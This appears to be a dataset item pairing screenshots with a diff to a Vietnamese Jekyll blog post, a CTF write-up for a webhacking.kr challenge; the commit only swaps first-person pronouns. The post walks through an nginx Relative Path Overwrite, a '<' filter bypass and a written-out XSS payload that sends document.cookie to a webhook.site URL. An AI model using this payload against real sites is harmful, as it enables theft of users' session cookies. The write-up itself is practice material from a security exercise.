

Before and after one commit to tu3n4nh/tu3n4nh.github.io, a Jekyll site: the page built from _posts/2024-03-18-webhacking-pro.md, in a window 1280 px wide and 1400 px high, scrolled down 1686 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Render About and 404 from markdown; use 'mình' throughout posts

````diff
--- a/_posts/2024-03-18-webhacking-pro.md
+++ b/_posts/2024-03-18-webhacking-pro.md
@@ -10,19 +10,19 @@ Link challenge: [http://webhacking.kr:10011/](http://webhacking.kr:10011/)
 ## Phân tích
 
 Sau khi vào trang web, ngoài trừ trang `report` thì không bấm vào được đâu để test tính năng của web nữa,
-nên em đã `Ctrl` + `U` để đọc source code:
+nên mình đã `Ctrl` + `U` để đọc source code:
 
 ![Source code của challenge](/img/posts/webhacking-pro/LvdBUiS.png)
 
-Em thấy website dùng `XMLHttpRequest` để gọi API tới `api.php/search` cộng với một từ trong mảng
+Mình thấy website dùng `XMLHttpRequest` để gọi API tới `api.php/search` cộng với một từ trong mảng
 `location[]`.
 
 ![Đoạn JS gọi api.php/search](/img/posts/webhacking-pro/DLM6MYh.png)
 
-Gọi thử API theo đúng đường dẫn đó và em thấy server trả về một object chứa đúng thông tin mà website dùng để hiển thị
+Gọi thử API theo đúng đường dẫn đó và mình thấy server trả về một object chứa đúng thông tin mà website dùng để hiển thị
 khi trỏ chuột vào `hoth`. Có lẽ đây là vị trí truyền dữ liệu duy nhất mà chúng ta kiểm soát.
 
-Em bắt đầu chèn thử một vài path bất kỳ:
+Mình bắt đầu chèn thử một vài path bất kỳ:
 
 ![Thử chèn path](/img/posts/webhacking-pro/8R80OoU.png)
 
@@ -30,14 +30,14 @@ Em bắt đầu chèn thử một vài path bất kỳ:
 
 ![Thử chèn path](/img/posts/webhacking-pro/GhUr5kO.png)
 
-Sau khi thử vài lần em xác định được web server là nginx, dấu ngoặc `<` `>` và các ký tự trong nó đều bị filter.
+Sau khi thử vài lần mình xác định được web server là nginx, dấu ngoặc `<` `>` và các ký tự trong nó đều bị filter.
 
-Thực sự thì rất là bế tắc. Sau khi đi xin hint thì em được hint đây là lỗi RPO, bắt đầu đi tìm hiểu về lỗi này.
+Thực sự thì rất là bế tắc. Sau khi đi xin hint thì mình được hint đây là lỗi RPO, bắt đầu đi tìm hiểu về lỗi này.
 Sau một hồi tìm doc thì chúng ta có thể thực hiện tấn công RPO với web server nginx bằng url decoding.
 
 ## Khai thác
 
-Em bắt đầu bằng việc tạo một result giả để thay cho `XMLHttpRequest()` được gọi:
+Mình bắt đầu bằng việc tạo một result giả để thay cho `XMLHttpRequest()` được gọi:
 
 ```json
 {"results":[{"name":"a","terrain":"a","population":"a","diameter":"1"}]}
@@ -47,7 +47,7 @@ Nếu chỉ để như vậy thì đoạn dữ liệu trả về sẽ kèm theo
 
 ![Response còn dính chữ not found](/img/posts/webhacking-pro/TxSlime.png)
 
-Để xóa được chữ *not found*, em dựa vào việc web filter ký tự `<` `>` và dữ liệu bên trong nó nên em đã thêm vào
+Để xóa được chữ *not found*, mình dựa vào việc web filter ký tự `<` `>` và dữ liệu bên trong nó nên mình đã thêm vào
 payload `<a`:
 
 ```text
@@ -64,21 +64,21 @@ Giờ đến RPO:
 http://webhacking.kr:10011/api.php/search/{"results":[{"name":"a","terrain":"a","population":"a","diameter":"1"}]}<a/..%2f..%2f..%2f
 ```
 
-Vì web server là nginx nên khi em encode ký tự `/` thành `%2f`, server sẽ không decode, nhưng payload đó được thực
-hiện trong JS và nó sẽ hiểu đoạn payload của em như sau:
+Vì web server là nginx nên khi mình encode ký tự `/` thành `%2f`, server sẽ không decode, nhưng payload đó được thực
+hiện trong JS và nó sẽ hiểu đoạn payload của mình như sau:
 
 ```text
 http://webhacking.kr:10011/api.php/search/{"results":[{"name":"a","terrain":"a","population":"a","diameter":"1"}]}<a/../../../api.php
 ```
 
-Và kết quả em nhận được là:
+Và kết quả mình nhận được là:
 
 ![RPO thành công](/img/posts/webhacking-pro/xp6RKbT.png)
 
 ## Lấy cookie admin
 
-Đã RPO thành công, giờ em cần XSS để lấy cookie admin. Nhưng vấn đề ở đây là ký tự `<` đã bị filter và web sẽ xóa
-hết những gì giữa `<` và `>`, vậy nên giờ em phải bypass ký tự `<`. Sau một hồi tìm kiếm thì em sử dụng unicode và
+Đã RPO thành công, giờ mình cần XSS để lấy cookie admin. Nhưng vấn đề ở đây là ký tự `<` đã bị filter và web sẽ xóa
+hết những gì giữa `<` và `>`, vậy nên giờ mình phải bypass ký tự `<`. Sau một hồi tìm kiếm thì mình sử dụng unicode và
 url encode để bypass: `<` = `%5cu003c`.
 
 Payload:
@@ -87,7 +87,7 @@ Payload:
 {"results":[{"name":"%5cu003cimg src=a onerror=location.href='https://webhook.site/19f12290-974f-4ea8-9e5b-84af2806beff?c='+document.cookie>","terrain":"a","population":"a","diameter":"1"}]}<a/..%2f..%2f..%2f
 ```
 
-Và vẫn giống như challenge trước `T.T` — em tự test trên trình duyệt thì được, nhưng khi report cho admin thì chờ
+Và vẫn giống như challenge trước `T.T` — mình tự test trên trình duyệt thì được, nhưng khi report cho admin thì chờ
 mãi không thấy cookie của admin đâu.
 
 ![Kết quả khi report cho admin](/img/posts/webhacking-pro/ttoIt2w.png)
````
Also changed, not shown: about.md (renamed from about.html, +1 -0 lines), 404.md (renamed from 404.html).
